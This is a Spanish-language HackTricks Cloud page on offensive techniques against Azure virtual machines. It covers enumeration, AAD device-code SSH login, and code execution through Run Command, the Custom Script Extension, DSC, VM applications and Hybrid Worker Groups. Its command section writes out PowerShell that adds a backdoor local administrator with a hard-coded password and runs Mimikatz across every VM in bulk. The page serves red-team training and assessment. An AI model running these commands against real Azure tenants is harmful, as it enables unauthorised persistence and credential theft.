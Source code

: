# Az - Máquinas Virtuales y Red

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información básica

[De la documentación:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Las máquinas virtuales de Azure son uno de varios tipos de [recursos de computación escalables y bajo demanda](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que ofrece Azure. Típicamente, eliges una máquina virtual cuando necesitas más control sobre el entorno de computación que las otras opciones ofrecen. Este artículo te proporciona información sobre lo que debes considerar antes de crear una máquina virtual, cómo crearla y cómo gestionarla.

## Información de Red de Azure

Las redes de Azure contienen **diferentes entidades y formas de configurarlas.** Puedes encontrar una breve **descripción,** **ejemplos** y comandos de **enumeración** de las diferentes entidades de red de Azure en:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** ofrece una solución de acceso RDP (Protocolo de Escritorio Remoto) y SSH (Shell Seguro) segura y completamente gestionada a través de SSL mediante el portal de Azure. Está integrado dentro de una Red Virtual de Azure, permitiendo conectividad RDP y SSH a las VMs utilizando IPs privadas, evitando la necesidad de IPs públicas. Esto lo convierte en una alternativa más segura y conveniente a los métodos tradicionales que implican asignaciones de IP públicas y configuraciones de reglas NSG para el acceso a las VMs. Los desarrolladores y el personal de TI pueden acceder de forma segura a las VMs desde el portal de Azure utilizando sus navegadores web, agilizando el proceso para entornos de desarrollo y pruebas.

Para listar todos los Hosts de Azure Bastion en tu suscripción, puedes usar el siguiente comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeración de VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Ejecutar comandos en una VM**

### **Inicio de sesión AAD en VM**

Es posible permitir el acceso a usuarios autenticados a través de AzureAD. Por ejemplo, al intentar acceder a una **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (es importante **usar el correo electrónico** con el azurecorp utilizado al intentar iniciar sesión) podrías obtener un error como: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Simplemente **sigue esas instrucciones** yendo a [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando el código, usa el correo electrónico y la contraseña como credenciales y podrás conectarte a través de SSH (si ese usuario tiene suficientes permisos para hacerlo: rol de `Inicio de sesión de administrador de máquina virtual` o `Inicio de sesión de usuario de máquina virtual`).

### **Ejecutar comando**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Ejecutar Extensión de Script Personalizado**

Las extensiones de máquina virtual (VM) de Azure son **pequeñas aplicaciones** que proporcionan configuración y automatización **tareas** posteriores a la implementación en **VMs de Azure**. Por ejemplo, si una máquina virtual requiere instalación de software, protección antivirus o la capacidad de ejecutar un script dentro de ella, puedes usar una extensión de VM.

Por lo tanto, si tienes acceso para escribirlo, puedes ejecutar código arbitrario:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) es una herramienta de PowerShell similar a Ansible, utilizada para configurar un host a través de código. DSC se integra con Azure, permitiendo la carga de archivos de configuración específicos. Estos archivos deben adherirse a una sintaxis estricta. Notablemente, la extensión DSC en Azure puede ejecutar comandos de archivos que cumplen con ciertos criterios de formato, incluso si la sintaxis no es correcta según los estándares de DSC, como se muestra en la figura proporcionada.

La ejecución de estos comandos es facilitada por la [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) función en Az PowerShell. Los requisitos incluyen un archivo **.PS1** con una función definida y el archivo debe estar comprimido en un archivo **.zip**. Aunque la sintaxis puede no ser precisa para DSC, el código aún se ejecutará. Sin embargo, la extensión marcará el estado de ejecución como "fallo", y no se verá ninguna salida del comando debido a que el estado es sobrescrito por el mensaje de fallo.

### VM Application Definitions

Las Definiciones de Aplicaciones de VM permiten el despliegue repetible de aplicaciones versionadas en una VM de Azure. Este recurso admite el despliegue y la actualización de aplicaciones en VMs. Para configurar esto, se requieren varios pasos, que implican comandos como **`New-AzGalleryApplication`** y **`New-AzGalleryApplicationVersion`** en Az PowerShell.

La ejecución de aplicaciones o comandos a través de este método implica la **"VMAppExtension"**, que se instala automáticamente cuando se aplica una aplicación a una VM. La extensión recupera el archivo de la URI especificada y lo nombra exactamente como la aplicación, sin una extensión. Para ejecutar el archivo correctamente, el campo "ManageActions" en la llamada a la API REST debe configurarse para renombrar el archivo con la extensión apropiada. La configuración de este método, una vez completada, se parecerá a la estructura mostrada en la figura proporcionada.

Sin embargo, este método de ejecución es relativamente lento, tardando alrededor de 3-4 minutos en ejecutar una aplicación o comando. Los archivos relacionados con este proceso se almacenan en directorios específicos (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` para la copia de la aplicación y `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` para el estado de ejecución).

Ambas técnicas proporcionan formas únicas de ejecutar comandos y desplegar aplicaciones en entornos de Azure, cada una con su propio conjunto de requisitos, pasos y consideraciones.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) son una característica en Azure que permite que los Runbooks, configurados en una Cuenta de Automatización, se ejecuten en una Máquina Virtual (VM) de Azure que forma parte del HWG designado. Esta ejecución es facilitada a través de una extensión instalada en la VM, que despliega el código del Runbook en la VM. Un aspecto significativo de este proceso es que las credenciales reales no son un factor en la ejecución porque el código se ejecuta con privilegios elevados, específicamente como **SYSTEM** o root, como se ilustra en la figura proporcionada.

Un detalle crucial para aquellos que utilizan VMs de Windows 10 es la necesidad de especificar la versión de PowerShell para el Runbook. Debe configurarse para ejecutarse como PowerShell Version 5.1 en lugar de 7.1. Este requisito proviene del hecho de que PowerShell 7.1 no está instalado por defecto en estas VMs, lo que lleva a un fallo en la ejecución del script si se especifica la versión 7.1.

Esta característica de Azure ofrece un método robusto para automatizar y gestionar tareas en entornos híbridos, permitiendo la gestión y ejecución centralizada de tareas en VMs de Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
